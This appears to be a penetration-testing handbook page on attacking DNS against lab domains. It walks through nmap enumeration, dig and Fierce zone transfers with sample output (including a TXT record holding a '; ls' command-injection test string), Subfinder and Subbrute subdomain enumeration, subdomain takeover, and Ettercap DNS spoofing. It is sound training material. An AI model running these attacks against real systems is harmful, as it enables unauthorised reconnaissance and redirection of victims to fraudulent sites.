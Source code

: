 ```yaml
---
title: "Attacking DNS"
type: handbook
weight: 6
---
```


The [Domain Name System](https://www.cloudflare.com/learning/dns/what-is-dns/) (`DNS`) translates domain names (e.g., hackthebox.com) to the numerical IP addresses (e.g., 104.17.42.72). DNS is mostly `UDP/53`, but DNS will rely on `TCP/53` more heavily as time progresses. DNS has always been designed to use both UDP and TCP port 53 from the start, with UDP being the default, and falls back to using TCP when it cannot communicate on UDP, typically when the packet size is too large to push through in a single UDP packet.

### Enumeration

```bash
nmap -p53 -Pn -sV -sC <ip-address>
```

### DNS Zone Transfer

#### DIG - AXFR Zone Transfer

```bash
dig AXFR @ns1.inlanefreight.htb inlanefreight.htb
```

Tools like [Fierce](https://github.com/mschwager/fierce) can also be used to enumerate all DNS servers of the root domain and scan for a DNS zone transfer:

```bash
fierce --domain zonetransfer.me

NS: nsztm2.digi.ninja. nsztm1.digi.ninja.
SOA: nsztm1.digi.ninja. (81.4.108.41)
Zone: success
{<DNS name @>: '@ 7200 IN SOA nsztm1.digi.ninja. robin.digi.ninja. 2019100801 '
               '172800 900 1209600 3600\n'
               '@ 300 IN HINFO "Casio fx-700G" "Windows XP"\n'
               '@ 301 IN TXT '
               '"google-site-verification=tyP28J7JAUHA9fw2sHXMgcCC0I6XBmmoVi04VlMewxA"\n'
               '@ 7200 IN MX 0 ASPMX.L.GOOGLE.COM.\n'
               '@ 7200 IN MX 10 ALT1.ASPMX.L.GOOGLE.COM.\n'
               '@ 7200 IN MX 10 ALT2.ASPMX.L.GOOGLE.COM.\n'
               '@ 7200 IN MX 20 ASPMX2.GOOGLEMAIL.COM.\n'
               '@ 7200 IN MX 20 ASPMX3.GOOGLEMAIL.COM.\n'
               '@ 7200 IN MX 20 ASPMX4.GOOGLEMAIL.COM.\n'
               '@ 7200 IN MX 20 ASPMX5.GOOGLEMAIL.COM.\n'
               '@ 7200 IN A 5.196.105.14\n'
               '@ 7200 IN NS nsztm1.digi.ninja.\n'
               '@ 7200 IN NS nsztm2.digi.ninja.',
 <DNS name _acme-challenge>: '_acme-challenge 301 IN TXT '
                             '"6Oa05hbUJ9xSsvYy7pApQvwCUSSGgxvrbdizjePEsZI"',
 <DNS name _sip._tcp>: '_sip._tcp 14000 IN SRV 0 0 5060 www',
 <DNS name 14.105.196.5.IN-ADDR.ARPA>: '14.105.196.5.IN-ADDR.ARPA 7200 IN PTR '
                                       'www',
 <DNS name asfdbauthdns>: 'asfdbauthdns 7900 IN AFSDB 1 asfdbbox',
 <DNS name asfdbbox>: 'asfdbbox 7200 IN A 127.0.0.1',
 <DNS name asfdbvolume>: 'asfdbvolume 7800 IN AFSDB 1 asfdbbox',
 <DNS name canberra-office>: 'canberra-office 7200 IN A 202.14.81.230',
 <DNS name cmdexec>: 'cmdexec 300 IN TXT "; ls"',
 <DNS name contact>: 'contact 2592000 IN TXT "Remember to call or email Pippa '
                     'on +44 123 4567890 or pippa@zonetransfer.me when making '
                     'DNS changes"',
 <DNS name dc-office>: 'dc-office 7200 IN A 143.228.181.132',
 <DNS name deadbeef>: 'deadbeef 7201 IN AAAA dead:beaf::',
 <DNS name dr>: 'dr 300 IN LOC 53 20 56.558 N 1 38 33.526 W 0.00m',
 <DNS name DZC>: 'DZC 7200 IN TXT "AbCdEfG"',
 <DNS name email>: 'email 2222 IN NAPTR 1 1 "P" "E2U+email" "" '
                   'email.zonetransfer.me\n'
                   'email 7200 IN A 74.125.206.26',
 <DNS name Hello>: 'Hello 7200 IN TXT "Hi to Josh and all his class"',
 <DNS name home>: 'home 7200 IN A 127.0.0.1',
 <DNS name Info>: 'Info 7200 IN TXT "ZoneTransfer.me service provided by Robin '
                  'Wood - robin@digi.ninja. See '
                  'http://digi.ninja/projects/zonetransferme.php for more '
                  'information."',
 <DNS name internal>: 'internal 300 IN NS intns1\ninternal 300 IN NS intns2',
 <DNS name intns1>: 'intns1 300 IN A 81.4.108.41',
 <DNS name intns2>: 'intns2 300 IN A 167.88.42.94',
 <DNS name office>: 'office 7200 IN A 4.23.39.254',
 <DNS name ipv6actnow.org>: 'ipv6actnow.org 7200 IN AAAA '
                            '2001:67c:2e8:11::c100:1332',
...SNIP...
```

### Domain Takeovers & Subdomain Enumeration

`Domain takeover` is registering a non-existent domain name to gain control over another domain. If attackers find an expired domain, they can claim that domain to perform further attacks such as hosting malicious content on a website or sending a phishing email leveraging the claimed domain.

Domain takeover is also possible with subdomains called `subdomain takeover`. 

#### Subdomain Enumeration

##### Subfinder

```bash
./subfinder -d inlanefreight.com -v       
                                                                       
        _     __ _         _                                           
____  _| |__ / _(_)_ _  __| |___ _ _          
(_-< || | '_ \  _| | ' \/ _  / -_) '_|                 
/__/\_,_|_.__/_| |_|_||_\__,_\___|_| v2.4.5                                                                                                                                                                                                                                                 
                projectdiscovery.io                    
                                                                       
[WRN] Use with caution. You are responsible for your actions
[WRN] Developers assume no liability and are not responsible for any misuse or damage.
[WRN] By using subfinder, you also agree to the terms of the APIs used. 
                                   
[INF] Enumerating subdomains for inlanefreight.com
[alienvault] www.inlanefreight.com
[dnsdumpster] ns1.inlanefreight.com
[dnsdumpster] ns2.inlanefreight.com
...snip...
[bufferover] Source took 2.193235338s for enumeration
ns2.inlanefreight.com
www.inlanefreight.com
ns1.inlanefreight.com
support.inlanefreight.com
[INF] Found 4 subdomains for inlanefreight.com in 20 seconds 11 milliseconds
```

##### Subbrute

An excellent alternative is a tool called [Subbrute](https://github.com/TheRook/subbrute). This tool allows us to use self-defined resolvers and perform pure DNS brute-forcing attacks during internal penetration tests on hosts that do not have Internet access.

```bash
git clone https://github.com/TheRook/subbrute.git >> /dev/null 2>&1
cd subbrute
echo "ns1.inlanefreight.com" > ./resolvers.txt
./subbrute.py inlanefreight.com -s ./names.txt -r ./resolvers.txt

Warning: Fewer than 16 resolvers per process, consider adding more nameservers to resolvers.txt.
inlanefreight.com
ns2.inlanefreight.com
www.inlanefreight.com
ms1.inlanefreight.com
support.inlanefreight.com

<SNIP>
```

The [can-i-take-over-xyz](https://github.com/EdOverflow/can-i-take-over-xyz) repository is also an excellent reference for a subdomain takeover vulnerability. It shows whether the target services are vulnerable to a subdomain takeover and provides guidelines on assessing the vulnerability.

### DNS Spoofing

DNS spoofing is also referred to as `DNS Cache Poisoning`. This attack involves altering legitimate DNS records with false information so that they can be used to redirect online traffic to a fraudulent website. Example attack paths for the DNS Cache Poisoning are as follows:

* An attacker could intercept the communication between a user and a DNS server to route the user to a fraudulent destination instead of a legitimate 	one by performing a Man-in-the-Middle (`MITM`) attack.

* Exploiting a vulnerability found in a DNS server could yield control over the server by an attacker to modify the DNS records.

#### Local DNS Cache Poisoning

From a local network perspective, an attacker can also perform DNS Cache Poisoning using MITM tools like [Ettercap](https://www.ettercap-project.org/) or [Bettercap](https://www.bettercap.org/).

```bash
cat /etc/ettercap/etter.dns

inlanefreight.com      A   192.168.225.110
*.inlanefreight.com    A   192.168.225.110
```

Next, start the `Ettercap` tool and scan for live hosts within the network by navigating to `Hosts > Scan for Hosts`. Once completed, add the target IP address (e.g., `192.168.152.129`) to Target1 and add a default gateway IP (e.g., `192.168.152.2`) to Target2.

![](target.webp)

Activate `dns_spoof` attack by navigating to `Plugins > Manage Plugins`. This sends the target machine with fake DNS responses that will resolve `inlanefreight.com` to IP address `192.168.225.110`:

![](etter_plug.webp)

After a successful DNS spoof attack, if a victim user coming from the target machine `192.168.152.129` visits the `inlanefreight.com` domain on a web browser, they will be redirected to a Fake page that is hosted on IP address `192.168.225.110`:

![](etter_site.webp)

In addition, a ping coming from the target IP address `192.168.152.129` to `inlanefreight.com` should be resolved to `192.168.225.110` as well:

```bash
C:\>ping inlanefreight.com

Pinging inlanefreight.com [192.168.225.110] with 32 bytes of data:
Reply from 192.168.225.110: bytes=32 time<1ms TTL=64
Reply from 192.168.225.110: bytes=32 time<1ms TTL=64
Reply from 192.168.225.110: bytes=32 time<1ms TTL=64
Reply from 192.168.225.110: bytes=32 time<1ms TTL=64

Ping statistics for 192.168.225.110:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 0ms, Average = 0ms
```

